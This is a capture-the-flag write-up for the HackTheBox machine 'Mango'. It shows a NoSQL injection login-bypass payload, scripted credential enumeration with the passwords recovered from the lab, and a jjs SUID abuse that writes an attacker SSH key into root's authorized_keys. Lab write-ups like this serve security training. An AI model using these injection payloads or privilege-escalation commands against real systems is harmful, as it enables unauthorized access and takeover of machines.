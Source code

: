 # Mango
Box IP **10.10.10.162**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v mango.htb
```

### Services
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/1.png" alt="1" />
</p>

Access to webserver on port 80 is forbidden, and connection of port 443 reveals an invalid certificate

By investigating the certificate we find some interesting info

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/2.png" alt="1" />
</p>

We add this domain to our hosts file and by surfing to it we get a login page


### MongoDB

We exploit MongoDB [regex](https://docs.mongodb.com/manual/reference/operator/query/regex/) to enumerate **users** and **password**.

If the regex matches, the server replies with status **302**, otherwise with **200**
```
POST / HTTP/1.1
...
username[$regex]=^admi.*&password[$ne]=1&login=login
```

<p align="center">
  <img src="https://github.com/lorenzoinvidia/HTB-CheatSheets/blob/master/src/web/mongo.png" alt="HTB" />
</p>

We [speedup](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py) the credential grabbing by

```bash
$ python3 nosqli-user-pass-enum.py -u https://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep username
$ python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep password
```

And we get **mango:h3mXK8RhU~f{]f5H** and **admin:t9KcS3>!0B#2**

We authenticate as **mango** in SSH and by switching user to **admin** we get the user flag


### Privilege Escalation

By searching for suid binaries
```
$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

we find a jss binary /usr/lib/jvm/java-11-openjdk-amd64/bin/**jjs**

As [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) suggests we basically can

- write our ssh PK in the root directory
```
$ echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("PUBLIC KEY");
fw.close();' | jjs
```

- open a [reverse shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Shells#spawn-reverse-shell)

- directly print the root flag

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/3.png" alt="1" />
</p>


If you liked this writeup, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
